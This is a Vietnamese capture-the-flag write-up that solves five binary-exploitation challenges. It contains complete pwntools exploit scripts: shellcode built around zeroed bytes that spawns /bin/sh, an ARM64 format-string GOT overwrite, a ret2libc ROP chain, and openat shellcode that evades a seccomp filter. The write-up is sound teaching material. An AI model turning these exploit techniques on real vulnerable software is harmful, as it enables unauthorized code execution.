

Lại một giải nữa gồm các bài lạ mà mình mới gặp, hay chưa gặp, và mình đã có đi xin đề về để làm thử <("). Và dưới đây là write up của một sô bài lạ lạ mình giải được, mình sẽ giải thích ngắn gọn các bàn dễ, và bên cạnh đó sẽ giải thích chi tiết các bài hay và lạ đối với mình

# AAA

```sh
[*] '/home/alter/CTFs/2025/KSCS_Recruit/PWN/AAA/main'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup(argc, argv, envp);
  printf("Input: ");
  gets(buf);
  printf("Your input: %s\n", buf);
  if ( is_admin )
    system("cat /flag");
  return 0;
}
```

Một bài tràn biến đơn giản, khi ta để ý kĩ thì `buf` và `is_admin` là biến toàn cục:

```sh
.bss:0000000000004060 buf             db 100h dup(?)          ; DATA XREF: main+26↑o
.bss:0000000000004060                                         ; main+3A↑o
.bss:0000000000004160                 public is_admin
.bss:0000000000004160 is_admin        dd ?                    ; DATA XREF: main+58↑r
```

Và biến `buf` nằm trên `is_admin` nên ta hoàn  toàn có thể thay đổi được giá trị của `is_admin` và làm cho chương trình thực hiện hàm `system()`

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./main', checksec=False)


def GDB(): gdb.attach(p, gdbscript='''


c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input("Please press ENTER to send your payload")

# ==================== EXPLOIT ====================

def exploit():

  sla(b'Input: ', cyclic(0x200))

  interactive()

if __name__ == '__main__':
  exploit()
```

# Chodan

```sh
[*] '/home/alter/CTFs/2025/KSCS_Recruit/PWN/Chodan/chodan'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#define __USE_MISC
#include <sys/mman.h>
#include <fcntl.h>
#define CODE_SIZE 0x100
#define NAME_SIZE 0x10

void (*code)();


void setup()
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    code = mmap(NULL, CODE_SIZE, PROT_READ | PROT_READ | PROT_EXEC | PROT_WRITE, \
                    MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if(!code)
    {
        perror("Init code failed");
        exit(-1);
    }
}

int main()
{
    setup();
    printf("Your shellcode: ");
    read(0, code, CODE_SIZE);
    close(0);
    uint8_t *cur = (uint8_t*)code + 8;
    while(cur + 8 < code + CODE_SIZE)
    {
        memset(cur, 0, 8);
        cur += 16;
    }
    asm volatile(
        ".intel_syntax noprefix;"
        "mov rax, 0xdededede;"
        "mov rdi, 0xcafebabe;"
        "mov rdx, 0xdcdcdcdc;"
        "mov rbx, 0xaaaaaaaaaa;"
        "mov rcx, 0xcccc;"
        "mov rsi, 0xccacaaaaac;"
        ".att_syntax prefix;"
    );
    code();
    return 0;
}
```

Nhìn vào source code thì ta thấy được đây là một bài shellcode, đặc biệt là cứ sau mỗi 8 bytes của shellcode nó sẽ chuyển về `0x00`

```c
    uint8_t *cur = (uint8_t*)code + 8;
    while(cur + 8 < code + CODE_SIZE)
    {
        memset(cur, 0, 8);
        cur += 16;
    }
```

Bên cạnh đó sau khi read xong dữ liệu của chúng ta, thì chương trình sẽ đóng `stdin` luôn, và vì cách của mình ở đây là sử dụng `execve` để tạo shell mà do nó đóng stdin rồi thì khi ta có được shell và nhập bất cứ thứ gì khác thì nó cũng không được, nên ta sẽ xử dụng `dup2` để mở lại `stdin` (bằng cách duplicate nó với những syscall hiện có), bên cạnh đó để bypass được việc sau mỗi 8 bytes nó sẽ cho dữ liệu của 8 bytes tiếp theo của mình thành `0x00`, nên ta sẽ xử dụng `jmp` và `nop` để nhảy qua những vùng đó. Bài này cần vừa làm vừa căn chỉnh shellcode liên tục nên ta có thể vào trang [này](https://defuse.ca/online-x86-assembler.htm) cũng khá là tiện

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./chodan', checksec=False)


def GDB(): gdb.attach(p, gdbscript='''

b*main+214
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input("Please press ENTER")

# ==================== EXPLOIT ====================

# Every next 8 bytes are zero'ed out
# -> write shellcode that after it executes some instruction it skips to the next 8 byte
# the program closes stdin -> reopen it using dup2 syscall as stdout/stderr isn't closed
# dup2(2, 0) -> this now points stdin to stderr (dup2 will duplicate old_fd to new_fd)


def set_reg(reg, val):
    pad = asm("nop") * 8
    jmp_pad = asm("nop") * 3
    jmp_8 = b"\xeb\x08"

    sc = asm(f"xor {reg}, {reg}")
    sc += jmp_pad
    sc += jmp_8
    sc += pad
    sc += asm(f"push {val}")
    sc += asm(f"pop {reg}")
    sc += jmp_pad
    sc += jmp_8
    sc += pad

    return sc

def null_rsi_rdx():
    pad = asm("nop") * 8
    jmp_8 = b"\xeb\x08"

    sc = asm("xor rsi, rsi")
    sc += asm("xor rdx, rdx")
    sc += jmp_8
    sc += pad

    return sc


def set_rdi_ptr():
    pad = asm("nop") * 8
    jmp_8 = b"\xeb\x08"

    sc = asm("lea r8, [rsp + 0x10]")
    sc += asm("nop")
    sc += jmp_8
    sc += pad
    sc += asm("mov rdi, qword ptr [r8]")
    sc += asm("nop") * 3
    sc += jmp_8
    sc += pad

    return sc


def syscall():
    pad = asm("nop") * 8
    jmp_ad = asm("nop") * 4
    jmp_8 = b"\xeb\x08"

    sc = asm("syscall")
    sc += jmp_ad
    sc += jmp_8
    sc += pad

    return sc


def dup2():

    sc = set_reg('rax', 0x21)
    sc += set_reg('rdi', 0x2)
    sc += set_reg('rsi', 0x0)
    sc += syscall()
    return sc

def execve():

    sc = set_reg('rax', 0x3b)
    sc += null_rsi_rdx()
    sc += set_rdi_ptr()
    sc += syscall()
    return sc


# def add_rdi():
#     pad = asm("nop") * 8
#     jmp_ad = asm("nop") * 2
#     jmp_8 = b"\xeb\x08"

#     sc = asm("add rdi, 0x28")
#     sc += jmp_ad
#     sc += jmp_8
#     sc += pad

#     return sc


def exploit():

  shellcode = dup2()
  shellcode += execve()
  shellcode += cyclic(40) + b"/bin/sh\0"

  print(f"Length: {len(shellcode)}")
  print(disasm(shellcode))


  print("\nShellcode bytes (hex):")
  print(shellcode.hex())


  print("\nShellcode bytes (escaped):")
  print(''.join(f'\\x{b:02x}' for b in shellcode))


  sa(b":", shellcode)

  interactive()

if __name__ == '__main__':
  exploit()
```

Sẽ có nhiều thắc mắc về việc làm sao mình tìm được opcode của `jmp` cần thiết, thì mình sử dụng tool đã ghi ở trên để làm, nhưng vì do mình lười viết đi viết lại nhiều lần các cái padding `nop` quá nên mình dùng function trong python cho nhanh


Khi chúng ta exploit bằng shellcode và gọi thành công `execve("/bin/sh", NULL, NULL)`, nhưng sau đó lại bị kết thúc với lỗi `EOF`, nguyên nhân có thể liên quan đến cách các `file descriptor (fd)` được xử lý khi chạy `local` và `remote`.

Khi chương trình chạy trong môi trường local (ví dụ: chạy trực tiếp trên terminal), các file descriptor (fd) mặc định sẽ là:

- `0 → stdin`
- `1 → stdout`
- `2 → stderr`
- Các file hoặc socket khác sẽ được mở với `fd >= 3`.

Khi kết nối remote bằng `nc`, tiến trình không còn chạy trực tiếp trên terminal nữa mà nó được kết nối qua `pipe`. Khi đó:

- `fd` `0, 1, 2` đều có thể trỏ đến cùng một `file descriptor` (do `nc` sử dụng `socket` để truyền dữ liệu).

Đây là khi ta kiểm tra tiến trình khi thực thi shellcode ở local:



Và để kiểm tra và hiểu rõ hơn thì mình đã tự build một docker và debug động vào đó


# KCSC Shop

```sh
[*] '/home/alter/CTFs/2025/KSCS_Recruit/PWN/KCSC Shop/public/public/shop'
    Arch:       aarch64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Đây là một challenge khá lạ đối với mình và mình khá tốn thời gian trong việc tìm hiểu nó vì `arch` ở đâu là `arm64` và nó tốn mình kha khá thời gian để hiểu xem mớ assembly của `arm64` làm gì....

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // x0
  int n2; // [xsp+14h] [xbp+14h]
  char buf[48]; // [xsp+18h] [xbp+18h] BYREF

  initialize(&_stack_chk_guard, 0LL, envp);
  memset(buf, 0, sizeof(buf));
  puts("Hello!\nWelcome to KCSC shopping mall");
  puts("What ur name, sir?");
  printf("> ");
  read(0, buf, 0x38uLL);
  printf("OK, hi ");
  printf(buf);                                  // <-------------- Format String
  v3 = sleep(1u);
  n2 = ask_the_shop_owner(v3);
  if ( n2 == 1 )
  {
    get_date();
  }
  else if ( n2 == 2 )
  {
    buy_a_gift();
    if ( count_gift )
      feedback();
  }
  puts("Ahh, have a good day, sir");
  puts("Bye");
  return 0;
}
```
```c
__int64 get_date()
{
  return system("/bin/date");
}
```
```c
__int64 buy_a_gift()
{
  __int64 n3; // [xsp+14h] [xbp+14h]
  _QWORD v2[3]; // [xsp+38h] [xbp+38h] BYREF

  v2[0] = 0LL;
  v2[1] = 0LL;
  n3 = (unsigned int)menu(v2, 0LL);
  if ( (_DWORD)n3 == 1 )
  {
    red_packet();
  }
  else if ( (_DWORD)n3 == 2 )
  {
    red_wine();
  }
  else if ( (_DWORD)n3 != 3 )
  {
    puts("I don't have that stuff, sir");
  }
  return v2[2] ^ _stack_chk_guard;
}
```
```c
__int64 red_packet()
{
  _QWORD v1[2]; // [xsp+10h] [xbp+10h] BYREF

  puts("Oh, red packet is a good choice");
  puts("How much money do you want to put in the red packet?");
  printf("> ");
  __isoc99_scanf("%lld", v1);
  getchar();
  if ( v1[0] > 1000000LL )
  {
    puts("Wow, you are so rich");
    is_VIP = 1;
  }
  puts("OK, I'll pack it for you");
  ++count_gift;
  return v1[1] ^ _stack_chk_guard;
}
```
```c
__int64 feedback()
{
  char buf[104]; // [xsp+10h] [xbp+10h] BYREF
  __int64 v2; // [xsp+78h] [xbp+78h]

  puts("I'm glad to here your feedback:");
  printf("> ");
  if ( is_VIP != 1 )
    read(0, buf, 0x68uLL);
  else
    fgets(buf, 256, (FILE *)stdin);
  puts("Hmmm, I'll notice that and thanks for ur report");
  return v2 ^ _stack_chk_guard;
}
```
Flow của chương trình thì khá đơn giản nên mình chỉ đưa lên những hàm mình sẽ tập trung khai thác ở đó, thì như ta thấy ở hàm `main` có 2 lỗi đó là `Format String`. Và target của mình là sử dụng `Format String` để overwrite `GOT` để tạo shell, và nhiệm vụ của ta để thực hiện việc lại hàm `main` một lần nữa thì lúc này ta sẽ để ý vào hàm `feedback` khi `is_VIP` bằng `1` thì ta sẽ được lỗi `buffer overflow` ở hàm này.

Vì đây là một challenge `arm64` nên ta cần phải chuẩn bị một số bước trước khi chạy và khai thác nó (ta có thể đọc ở [đây](https://ropemporium.com/guide.html)). Và mình cũng cơ cấu lại phần `init` của file exploit của mình là như thế này:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'info'
exe = context.binary = ELF('./shop_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return process(["qemu-aarch64","-g","5000", "-L", "/usr/arm-linux-gnueabi/", exe.path])
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process(["qemu-aarch64", "-L", "/usr/arm-linux-gnueabi/", exe.path] + argv, *a, **kw)

p = start()
```

Bằng cách này khi chạy exploit của ta sẽ mở một server chạy ở cổng `5000` và việc của ta cần làm là xử dụng `gdb-multiarch` và `target remote` vào đó rồi debug động như bình thường. Và việc còn lại là exploit:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'info'
exe = context.binary = ELF('./shop_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return process(["qemu-aarch64","-g","5000", "-L", "/usr/arm-linux-gnueabi/", exe.path])
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process(["qemu-aarch64", "-L", "/usr/arm-linux-gnueabi/", exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def ret2main():

  sa(b'> ', b'%9$p|%17$p')
  ru(b'hi ')
  output = rl()[:-1].split(b'|')
  canary = int(output[1], 16)
  libc.address = int(output[0],16) - 0x273fc
  slog('Libc base',libc.address)
  slog('Canary', canary)

  pl = flat(
    b'A'*104,
    canary,
    b'B'*8,
    exe.sym.main
    )

  sla(b'> ',b'2')
  sla(b'> ', b'1')
  sla(b'> ', b'2000000')
  sla(b'> ', pl)

def write_printf_to_system():

    system = libc.sym.system
    printf = exe.got.printf

    slog('System',system)
    slog('Printf', printf)

    byte = (system >> 16) & 0xff
    two_bytes = system & 0xffff

    pl = f'%{byte}c%15$hhn'.encode()
    pl += f'%{two_bytes - byte - len(pl) + 0xc}c%16$hn'.encode()
    pl = pl.ljust(32, b'.')
    pl += p64(printf + 2)
    pl += p64(printf)

    sa(b'> ', pl)

def get_shell():

    sl(b'1')
    sl(b'/bin/sh\0')

def exploit():

  ret2main()
  write_printf_to_system()
  # ret2main()
  get_shell()

  interactive()

if __name__ == '__main__':
  exploit()
```

*Lưu ý:* Đối với bài này ta cần phải kiểm tra payload và debug liên tục vì các `index` của `Format String` mình tính ra có thể sẽ khác một chút (có thể bị lệch nên phải kiểm tra kĩ). Và bên cạnh đó mình để ý rằng khi một hàm thực thi xong và return về hàm đã gọi nó thì dữ liệu trên stack trước đó của nó sẽ không bị xoá (mình cũng chưa hiểu tại sao lắm vì đây là bài ARM64 đầu tiên mình làm...). Chính vì thế mà ở đoạn `pl += f'%{two_bytes - byte - len(pl) + 0xc}c%16$hn'.encode()` mình lại phải trừ thêm cho `len(pl) + 0xc` là như vậy.

# Baby ROP

```sh
[*] '/home/alter/CTFs/2025/KSCS_Recruit/PWN/babyROP/babyROP/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char input[64]; // [rsp+0h] [rbp-40h] BYREF

  setup(argc, argv, envp);
  puts("Welcome to KCSC Recruitment !!!");
  printf("Data: ");
  fgets(input, 4919, stdin);
  if ( strlen(input) > 0x40 )
  {
    puts("Buffer overflow ??? No way.");
    exit(0);
  }
  puts("Thank for playing :)");
  return 0;
}
```

Chương trình chỉ có một hàm `main` duy nhất, ở hàm này nó sử dụng `strlen()` để check độ dài payload của chúng ta, nhưng điều này không đáng quan ngại lắm vì `strlen()` sẽ kiểm tra độ dài của chuỗi tức là nó sẽ dừng lại khi gặp `null byte` vì thế ta có thể để `null byte` ở đầu để bypass đoạn này. Đối với bài này ta không thể dùng các `gadget` thông dụng để leak được địa chỉ vì libc được cho là libc phiên bản mới nhất. Vì thế ta có thể nghĩ đến kĩ thuật `Stack Pivot`, nhưng trong lúc làm thì mình nhận ra chương trình có hàm `printf()`, hãy cùng xem điều đặc biệt ở hàm `printf()` này:

- Trước khi call `printf()`

```sh
 RAX  0
 RBX  0
 RCX  0x7ffff7e98887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  1
 RDI  0x402028 ◂— 0x4200203a61746144 /* 'Data: ' */
 RSI  1
 R8   0x1f
 R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64
 R10  0x7ffff7d910c8 ◂— 0xf0022000065de
 R11  0x246
 R12  0x7fffffffdcd8 —▸ 0x7fffffffdf6b ◂— '/home/alter/CTFs/2025/KSCS_Recruit/PWN/babyROP/babyROP/chall'
 R13  0x40123b (main) ◂— endbr64
 R14  0x403e18 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4011a0 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffdbc0 ◂— 1
 RSP  0x7fffffffdb80 —▸ 0x7ffff7fc1000 ◂— jg 0x7ffff7fc1047
 RIP  0x40126f (main+52) ◂— call printf@plt
───────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────────
 ► 0x40126f <main+52>    call   printf@plt                  <printf@plt>
        format: 0x402028 ◂— 0x4200203a61746144 /* 'Data: ' */
        vararg: 1
```

- Sau khi call `printf()`:
```sh
*RAX  6
 RBX  0
 RCX  0x7ffff7e98887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0
*RDI  0x7fffffffb940 —▸ 0x7ffff7de6050 (funlockfile) ◂— endbr64
*RSI  0x7fffffffba60 ◂— 0x203a61746144 /* 'Data: ' */
*R8   6
 R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64
*R10  0x402028 ◂— 0x4200203a61746144 /* 'Data: ' */
 R11  0x246
 R12  0x7fffffffdcd8 —▸ 0x7fffffffdf6b ◂— '/home/alter/CTFs/2025/KSCS_Recruit/PWN/babyROP/babyROP/chall'
 R13  0x40123b (main) ◂— endbr64
 R14  0x403e18 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4011a0 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffdbc0 ◂— 1
 RSP  0x7fffffffdb80 —▸ 0x7ffff7fc1000 ◂— jg 0x7ffff7fc1047
*RIP  0x401274 (main+57) ◂— mov rdx, qword ptr [rip + 0x2df5]
pwndbg> vmmap 0x7ffff7de6050
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x7ffff7d84000     0x7ffff7dac000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7ffff7dac000     0x7ffff7f41000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6 +0x3a050
    0x7ffff7f41000     0x7ffff7f99000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
```

Ta thấy rằng sau khi nó call xong thì `RDI` sẽ được set là một địa chỉ của `funlock` trong libc (mình sẽ viết một bài về cái này trong tương lai), bằng cách này ta có thể kiểm soát được `RDI` và leak địa chỉ rồi get shell:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*main+145
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input("Please press ENTER to send your payload")

# ==================== EXPLOIT ====================

input()
def exploit():

  ret = 0x000000000040101a

  pl = flat(

    b'\0' + b'A'*71,
    ret,
    exe.plt.printf,
    exe.plt.puts,
    exe.sym.main,
    )

  sla(b'Data: ', pl)
  ru(b'Thank for playing :)\n')
  leak = u64(rl()[:-1].ljust(0x8, b'\0'))
  libc.address = leak - 0x62050
  print(hex(leak))
  print(hex(libc.address))

  rop = ROP(libc)
  pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]

  pl = flat(
    b'\0' + b'A'*71,
    ret,
    pop_rdi,
    next(libc.search(b'/bin/sh')),
    libc.sym.system
    )

  sla(b'Data: ', pl)

  interactive()

if __name__ == '__main__':
  exploit()
```

# ccrash

```
[*] '/home/alter/CTFs/2025/KSCS_Recruit/PWN/ccrash/ccrash/main'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

```sh
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[1024]; // [rsp+0h] [rbp-400h] BYREF

  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  setup();
  puts("Test::Test: Assertion 'false' failed!");
  puts("Callstack:");
  printf("dbg::handle_assert(214) in mylib.dll %p: Test::Test(9) in mylib.dll\n", buf);
  printf("myfunc(10) in TestStackTrace %p: main(23) in TestStackTrace\n", trace);
  puts("invoke_main(65) in TestStackTrace");
  puts("_scrt_common_main_seh(253) in TestStackTrace ");
  puts("OK");
  read(0, buf, 0x410uLL);
  return 0;
}
```

Đây là một bài `ret2shellcode` cơ bản nhưng có thêm sự xuất hiện của `seccomp`:

```sh
$ seccomp-tools dump ./main
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x03 0x00 0x00000002  if (A == open) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00050001  return ERRNO(1)
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

Ta thấy `seccomp` cấm các syscall như `open` `execve` `execveat`, nhưng ta có thể thay thế bằng syscall `openat`:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./main', checksec=False)


def GDB(): gdb.attach(p, gdbscript='''


c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input()

# ==================== EXPLOIT ====================

# getdents syscall to list the files in the current directory or any directory

def exploit():

  ru(b'mylib.dll ')
  leak = int((rl().split(b" ")[0][:-1]),16)
  print(hex(leak))

  sc = asm('''nop\n'''*0x10+'''

        xor rax, rax
        mov rax, 0x101
        mov rdi, -100
        lea rsi, [rip + file_path]
        syscall

        mov rdi, rax
        mov rsi, rsp
        mov rdx, 0x50
        mov rax, 0
        syscall

        mov rdx, 0x50
        mov rdi, 1
        mov rsi, rsp
        mov rax, 1
        syscall

        file_path:
            .asciz "./flag.txt"

        ''', arch='amd64')

    # sc = asm(shellcraft.openat(-1, "/home/user/flag.txt"))
    # sc += asm(shellcraft.read('rax', 'rsp', 0x50))
    # sc += asm(shellcraft.write(1, 'rsp', 0x50))

  s(sc.ljust(0x408, b'A') + p64(leak))

  interactive()

if __name__ == '__main__':
  exploit()
```
